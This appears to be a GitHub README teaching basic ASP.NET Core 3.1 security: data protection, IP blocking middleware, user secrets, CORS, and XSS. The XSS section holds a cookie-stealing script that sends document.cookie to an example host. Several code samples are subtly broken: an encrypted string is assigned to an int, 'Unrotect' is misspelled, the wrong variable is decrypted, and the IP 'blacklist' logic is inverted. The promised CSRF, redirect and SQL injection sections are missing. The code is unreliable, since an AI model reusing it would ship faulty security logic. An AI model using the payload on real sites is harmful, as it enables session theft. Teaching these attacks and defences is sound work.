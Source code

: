 <p align="center">
  <a href="https://github.com/ikbalkazanc">
    <img src="https://lh3.googleusercontent.com/proxy/pUt-ybQ0BaBUWHh7cQsbTj33qb9gdPJFUhwCfb7eqi0JblCvN53sPhaSXXk0irULCByr_ZLiOcnAb5tMAmXd6KI" alt="Logo" width="420" height="140">
  </a>

  <h3 align="center">Asp.Net Core 3.1 Basic Attacks and Solutions</h3>
  <p align="center">
    This repository explain simple but effective attacks through examples. Asp.Net can resolving many problem. <br/> We need to do just let it.
    <br />
    <br />
  </p>
</p>

* [Security Precautions](#security-precautions)
  * [Data Protection](#data-protection)
  * [IP Control](#ip-control)
  * [Secret Protection](#secret-protection)
  * [CORS](#cors-cross-origin-resource-sharing)
* [Attacks](#usage)
  * [XSS](#xss)
    * [Reflected](#reflected)
    * [Stored](#stored)
    * [Dom](#Dom-document-object-model)
  * [CSRF](#installation)
  * [Open Redirect Attacks](#installation)
  * [SQL Injection](#installation)
# Security Precautions
## Data Protection
Not need "TATAVA". in sum, Valuable data are require hide. Therefore we will encrypt data. Thus datas are store as encrypted for memory or cookies in client side.
```
www.domain.com/products/77
www.domain.com/products/PIjlIX2rVMPEsXyZ9rvhQJdJDxXRr5zyt_hiDhRRlBmtLo1npprgm2CMnQRcBWylcVWq8fjvwyngsfad
````

We will use `Microsoft.AspNetCore.DataProtection`. Have require two things us. Top secret key and (`IDataProtector`) dependency injection in controller. Key thinkable like door key. Key is require for opening door.
```csharp
private readonly IDataProtector _dataProtector;

public ProductController(IDataProtectionProvider provider)
{
  _dataProtector = provider.CreateProtector("private_key_for_example_can_be_ProductController");            
}
````
And we can define encrypter in action input and output. I'm fondle .Net Core's eye. it is just that easy.  
```csharp
public IActionResult Index()
{
  int userId = 1001;
  int encrypUserId = _dataProtector.Protect(userId);
  return View(encrypUserId);
}
````
```csharp
public IActionResult Index(string encryptedId)
{
  int userPassword = Int32.Parse(_dataProtector.Unrotect(userPassword));
  return View();
}
````
<bold>Note :</bold> Above all must add `services.AddDataProtection()` in `Startup.cs` services. Also all of these can be as middleware.

## IP Control
IP control provide to define blacklist or whitelist for IPs. We will manegement IP lists. Thus we can block malicious. We will code as middleware level in this sample. Therefore we need to define `RequestDelegate` in dependency injections.   
```csharp
private readonly RequestDelegate _next;
private readonly string[] _ipBlackList = {"127.0.0.1", "::1"};
  
public IPSafeMiddleWare(RequestDelegate next)
{
  _next = next;
}
```
And coding `Invoke()` method. This method provide coding middleware to us. Required request context for method. And we check that it is in blacklist.
```csharp
public async Task Invoke(HttpContext context)
{
  var requestIpAdress = context.Connection.RemoteIpAddress;
  var isWhiteList = _ipBlackList.Where(x => IPAddress.Parse(x).Equals(requestIpAdress)).Any();
  if (!isWhiteList)
  {
    context.Response.StatusCode = (int) HttpStatusCode.Forbidden;
    return;
  }           
  await _next(context);
 }
```
Last all we need to do let know middleware to asp.net. We define `IPSafeMiddleware` in `Startup.cs` `Configure` method. And finished.
```csharp
app.UseMiddleware<IPSafeMiddleWare>();
```
Actually you can do this checking process as filter too. Thus you can checking ip in controller level or action level. Maybe this can improve performance.  
## Secret Protection
Normally we are recording connection string to `appsettings.json`. But datas not be in safe there. Asp.Net Core is avert this situation. it's providing top secret file for top secret data. Thanks Bill Doors 🙏. <br/>
<div align="center">
<img src="https://github.com/ikbalkazanc/Asp.NetCore-Security/blob/master/resim_2020-11-23_022355.png" alt="Logo" width="360" height="120">
  </div>
<br/>

We can access by right click web project file then choice `Manage Users Secrets` so to top secret file. Now, We can write secret contexts inside of `appsettings.json` to this json file. Asp.NET Core add `secrets.json` inside to `appsettings.json` in compile time. Thinkable like one file.   

## CORS (Cross-Origin Resource Sharing)
in sum, Permission is required to pass through CORS. in conclusion not its dad's farm. We need to a policy key for permission. We can define CORS in `Startup.cs` services. Then require add inside middleware layer like this `app.UseCors("AllowSites");`. 
````csharp
public void ConfigureServices(IServiceCollection services)
{
  services.AddCors(options =>
  {   
    //allow all domains            
    options.AddDefaultPolicy(builder =>
    {
      builder.AllowAnyOrigin().AllowAnyHeader().AllowAnyMethod();
    }); 
    
    //allow spesific domains
    options.AddPolicy("AllowSites", builder =>
    {
      builder.WithOrigins("https://localhost:44355", "https://anywebsites.com", "etc.")
      .AllowAnyHeader().AllowAnyMethod();
    });
  });
}
````
Also we can define more specific rules. I tried explain in project file. You can examine.

# Attacks
## XSS
This is a kind of script vulnerability. Done by integrate harmful script in our HTML and JS files. There are 3 ways. But we can apply same solution all of them. Net Core provide solution as default. Again thanks great dot net. Not need to define in `Startup.cs` file. if we want we can disable it.
```
<script> new Image().\"http://example.com/readCookie/?account=\"+document.cookie\"</script>
```
as example, when this script integrated to our js codes it's send to own "domain". that's very simple process but so effective. XSS attacks are one of the most common forms of Web Attacks, and this type of attack accounts for 12.75% of all web attacks.
### Reflected
Hacker is integrate scripts to browser in client side. Nevertheless we can block this scripts. He's can access a user data.
### Stored
Hacker is integrate scripts to source code in server side. it's so dangerous. Hacker can access all users data.  
### Dom(Document Object Model)
This way genrally weld up from trying to payload after # sign. 
<!-- CONTACT -->
## Contact
Muhammet İkbal KAZANCI - [LinkedIn](https://www.linkedin.com/in/ikbalkazanc/) - mi.kazanci@hotmail.com


